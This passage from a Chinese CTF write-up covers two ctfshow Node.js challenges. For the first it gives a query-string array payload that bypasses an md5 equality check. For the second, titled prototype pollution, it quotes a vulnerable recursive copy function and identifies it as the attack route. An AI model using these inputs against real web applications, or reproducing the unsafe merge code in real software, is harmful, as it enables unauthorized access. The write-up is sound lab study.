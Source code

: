> var b = req.query.b;
> if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
> 	res.end(flag);
> }else{
> 	res.render('index',{ msg: 'tql'});
> }
> 
> });
> 
> module.exports = router;
> ```
>
> 要求a和b长度相等，内容不同但其md5值相同

数组绕过，js中两个数组是不能直接用===判断相等的：

```
?a[a]=1&b[a]=2
```

```
执行如下代码：那么下面的结果都会是[object Object]flag{xxx}，其md5也就一样了
a={'a':'1'}
b={'a':'2'}

console.log(a+"flag{xxx}")
console.log(b+"flag{xxx}")
```



## 338 原型链污染

> 下载源码：
>
> routes/login.js
>
> ```js
> var flag='flag_here';
> var secert = {};
> var sess = req.session;
> let user = {};
> utils.copy(user,req.body);
> if(secert.ctfshow==='36dboy'){
>  res.end(flag);
> }
> ```
>
> utils/common.js
>
> ```js
> function copy(object1, object2){
>  for (let key in object2) {
>      if (key in object2 && key in object1) {
>          copy(object1[key], object2[key])
>      } else {
>          object1[key] = object2[key]
>      }
>  }
> }
> ```
>
> 只需secert的ctfshow属性=36dboy即可获得flag
> 再看跟踪到copy方法，可以利用原型链污染
